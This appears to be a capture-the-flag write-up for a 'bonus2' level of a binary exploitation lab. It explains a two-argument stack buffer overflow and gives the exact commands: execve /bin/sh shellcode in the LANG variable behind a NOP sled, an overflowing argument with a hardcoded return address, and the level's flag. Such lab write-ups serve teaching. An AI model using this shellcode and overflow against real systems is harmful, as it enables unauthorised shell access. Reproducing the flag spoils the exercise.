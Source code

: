 # Bonus 2

Here we have a program that takes 2 arguments but there is not enough space in the first argument to overflow in EIP and setup a shellcode. However we use an environnement variable in which we can store anything so we put our shellcode in there. Then we have to put enough characters in  argv[1] to overflow in argv2 making a big string to have enough characters to overflow in EIP. But if we keep the language anything else than nl we do not have enough characters to overflow in EIP so we need to start the LANG env variable with "nl" (fi should work too). Then we overflow in EIP giving it the address of our shellcode in the ENV (or any address part of the NOP slope preceding it to make easier address)
```bash
bonus2@RainFall:~$ export LANG=$(python -c 'print "nl" + "\x90" * 128 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\x31\xc9\x31\xd2\xcd\x80"')
bonus2@RainFall:~$ ./bonus2 NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN $(python -c 'print "N" * 23 + "\xd8\xfe\xff\xbf"')
```
**Flag:** `71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587`
